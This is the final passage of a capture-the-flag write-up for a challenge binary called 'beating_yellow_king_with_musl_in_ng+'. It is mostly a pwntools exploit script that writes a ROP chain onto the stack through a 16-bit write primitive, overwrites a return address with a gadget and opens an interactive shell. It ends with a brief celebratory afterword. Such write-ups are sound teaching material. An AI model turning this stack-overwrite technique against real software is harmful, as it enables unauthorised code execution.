    print(f"[+] current_write_addr :: {hex(current_write_addr)}")
    print(f"[+] target_value :: {hex(target_value)}")

    # Low
    p.sendline(b"2")
    print(p.recvuntil(b"index:"))

    p.sendline(b"0")
    print(p.recvuntil(b"leave..\n"))

    payload = write_primitive(current_write_addr, target_value & 0xFFFF)
    print(b"[+] Payload (Low) :: ", payload)
    p.send(payload)

    print(p.recvuntil(b">>"))

    # Mid
    p.sendline(b"2")
    print(p.recvuntil(b"index:"))

    p.sendline(b"0")
    print(p.recvuntil(b"leave..\n"))

    payload = write_primitive(current_write_addr + 2, (target_value >> 16) & 0xFFFF)
    print(b"[+] Payload (Mid) :: ", payload)
    p.send(payload)

    print(p.recvuntil(b">>"))

    # High
    p.sendline(b"2")
    print(p.recvuntil(b"index:"))

    p.sendline(b"0")
    print(p.recvuntil(b"leave..\n"))

    payload = write_primitive(current_write_addr + 4, (target_value >> 32) & 0xFFFF)
    print(b"[+] Payload (High) :: ", payload)
    p.send(payload)

    print(p.recvuntil(b">>"))

    # Peak
    p.sendline(b"2")
    print(p.recvuntil(b"index:"))

    p.sendline(b"0")
    print(p.recvuntil(b"leave..\n"))

    payload = write_primitive(current_write_addr + 6, 0x0000)
    print(b"[+] Payload (Peak) :: ", payload)
    p.send(payload)

    print(p.recvuntil(b">>"))

    current_write_addr += 8

print("[+] ROP Chain written on the stack")

# Triggering
print("[+] Trigger Change of Return Address")
print("[+] target_ret :: ", hex(target_ret))

final_target = BIN_POP_RAX_RET

print("[+] Writing Final Gadget")
print("[+] final_target :: ", hex(final_target))

p.sendline(b"2")
print(p.recvuntil(b"index:"))

p.sendline(b"0")
print(p.recvuntil(b"leave..\n"))

payload = write_primitive(target_ret, final_target & 0xFFFF)
print(b"[+] Payload (WTF) :: ", payload)
p.send(payload)

p.interactive()

p.close()
```

Below we see our exploit in action and we finally pop the `shell` —


💗 We have successfully exploited `beating_yellow_king_with_musl_in_ng+` binary and thus completed the challenge — Happy hacking!

### Afterwords

Here’s another unintended solution that I found too cool , I mean awesome `pwners` are truly awesome right?



🐣 I think I spend way too much time on this but it is what it is.

